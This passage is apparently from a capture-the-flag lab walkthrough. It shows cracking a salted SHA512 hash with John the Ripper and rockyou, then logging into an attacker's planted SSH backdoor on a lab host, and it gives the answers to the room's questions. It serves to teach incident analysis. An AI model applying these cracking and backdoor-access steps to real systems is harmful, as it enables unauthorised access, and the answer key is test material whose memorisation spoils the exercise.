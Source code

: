 **Question : What was the hash that the attacker used ? - go back to the PCAP for this!**  
**Answer : 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed**  

Let's crack this hash and don't forget to add the salt like so : [hash]$[salt]. Also, don't forget to specify the hash type using the `--format` parameter (you can find the hash type 
by using online tools like [Hashes.com](https://hashes.com/en/tools/hash_identifier)) :  
![](https://i.imgur.com/aipfm5M.jpg)  

Now we know it's a SHA512 hash. The format for SHA512 + salt is `dynamic=sha512($p.$s)`
```
attacker@AttackBox:~$ echo '6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed$1c362db832f3f864c8c2fe05f2002a05' > hash.txt
attacker@AttackBox:~$ cat hash.txt 
6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed$1c362db832f3f864c8c2fe05f2002a05
attacker@AttackBox:~$ john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format='dynamic=sha512($p.$s)'
Using default input encoding: UTF-8
Loaded 1 password hash (dynamic=sha512($p.$s) [128/128 SSE4.1 2x])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
november16       (?)     
1g 0:00:00:00 DONE (2022-12-18 21:25) 10.00g/s 184800p/s 184800c/s 184800C/s woodside..nokian70
Use the "--show --format=dynamic=sha512($p.$s)" options to display all of the cracked passwords reliably
Session completed. 
attacker@AttackBox:~$
```

**Question : Crack the hash using rockyou and a cracking tool of your choice. What's the password ?**  
**Answer : november16**  

## Taking control of Overpass production server

It is asked to find out what message was left on the web server. Let's take a look using a web browser :  
![](https://i.imgur.com/87yaONF.jpg)  

**Question : The attacker defaced the website. What message did they leave as a heading ?**  
**Answer : H4ck3d by CooctusClan**  

We already know the credentials for the backdoor (james:november16), we need to find out on what port the backdoor is running. We can see this in the source code 
on Github :  
![](https://i.imgur.com/8F4aL0l.jpg)  

Now, we know the backdoor is running on port 2222. Let's connect to it :  
```
attacker@AttackBox:~$ ssh james@10.10.5.198 -p 2222
The authenticity of host '[10.10.5.198]:2222 ([10.10.5.198]:2222)' can't be established.
RSA key fingerprint is SHA256:z0OyQNW5sa3rr6mR7yDMo1avzRRPcapaYwOxjttuZ58.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.5.198]:2222' (RSA) to the list of known hosts.
james@10.10.5.198's password: 
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

james@overpass-production:/home/james/ssh-backdoor$
```
